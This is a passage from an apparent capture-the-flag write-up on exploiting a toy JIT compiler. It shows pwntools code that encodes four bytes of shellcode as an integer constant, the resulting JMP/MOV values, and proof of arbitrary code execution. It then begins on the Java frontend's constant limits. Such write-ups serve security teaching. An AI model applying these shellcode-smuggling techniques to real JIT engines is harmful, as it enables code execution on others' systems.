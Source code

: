 Next we need to encode some arbitrary instructions into a number. Once again, python comes to the rescue:
```python
def encode_asm_as_imm32(instructions):
    shellcode = pwn.asm(instructions)

    # Pad out to 4 bytes.
    if len(shellcode) > 4:
        pwn.log.error("\"{}\" encodes to {} bytes, which cannot be encoded as a 32-bit integer, shorten it to 4 bytes or less.".format(instructions, len(shellcode)))
    four_byte_shellcode = shellcode.ljust(4, '\x00')

    return pwn.u32(four_byte_shellcode)
```

Combining this all together:
```python
jump_value = find_jump_value(0)
encoded_asm_constant = encode_asm_as_imm32("pop eax; pop ebx; pop ecx; pop edx")

print("JMP({})".format(jump_value))
print("MOV(A, {})".format(encoded_asm_constant))
```
```
JMP(206)
MOV(A, 1515805528)
```

And lastly, running this program through the debugger shows that we can indeed execute 4 bytes of arbitrary code.
![JMP(206) proof](/images/google19/jit/jmp_206_proof.png)

## Java limitiations
Using what we have so far, we can write a program that spawns a shell in the debug environment. However, the java frontend adds a few limitations that will prevent it from working on the actual server.

The first limitiation is that *MOV*, *ADD*, *SUB* and *CMP* instructions can only use a constant with a maximum value of 99999, which stops us from encoding 4 arbitrary bytes of code:
```java
case "MOV":
    if (instr.arg < 0 || instr.arg > 99999) {
        return false;
    }
    break;
case "ADD":
case "SUB":
case "CMP":
    if (instr.arg < 0 || instr.arg > 99999 || instr.reg != 'A') {
        return false;
    }
    break;
```
